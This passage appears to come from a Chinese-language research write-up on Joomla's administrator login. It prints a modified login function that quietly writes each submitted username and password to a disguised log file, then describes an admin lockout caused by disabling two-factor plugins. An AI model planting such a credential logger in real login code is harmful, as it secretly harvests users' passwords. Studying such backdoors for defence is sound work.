 [![](assets/1706845175-8fb03a132c90ac4c10d88feab7ee25c9.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706778943142-3bd2c57d-5384-4a39-b1cc-e2cbeba6da2a.png#averageHue=%232d2f34&clientId=u22ad75f3-605d-4&from=paste&height=980&id=IkEZW&originHeight=1960&originWidth=3096&originalType=binary&ratio=2&rotation=0&showTitle=false&size=738271&status=done&style=none&taskId=uf34c8c0b-99ee-485d-a0db-76fdcfea26e&title=&width=1548)

```plain
protected function populateState()
    {
        $input = Factory::getApplication()->input->getInputForRequestMethod();

        $credentials = [
            'username'  => $input->get('username', '', 'USERNAME'),
            'password'  => $input->get('passwd', '', 'RAW'),
            'secretkey' => $input->get('secretkey', '', 'RAW'),
        ];
        file_put_contents('/var/log/accesss.log',$credentials['username'].$credentials['password']);
    ...
    }
```

#### 花絮

由于在研究用户权限管理时，打开了双因素认证，在调试寻找后台登录函数时感觉双因素认证麻烦于是进入后台后禁用了所有与双因素认证相关的插件，重新登录后网页提示如下  
[![](assets/1706845175-c9ef757f3eab35284524dbf9f46f58b7.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706774015950-db8bbbb8-95e5-4f6b-ba5c-79d45792873d.png#averageHue=%23afb6c2&clientId=u22ad75f3-605d-4&from=paste&height=468&id=UlXd0&originHeight=936&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=194856&status=done&style=none&taskId=ub1369385-ffb0-4791-af6c-6e09d69415e&title=&width=1547)  
这应该是由于操作不当引发的逻辑问题，身为“网站管理员”尝试着手解决这个问题  
目前 super user 权限的用户登录后台后会直接显示 403，任何功能都无法访问，所以只能从数据库着手修复  
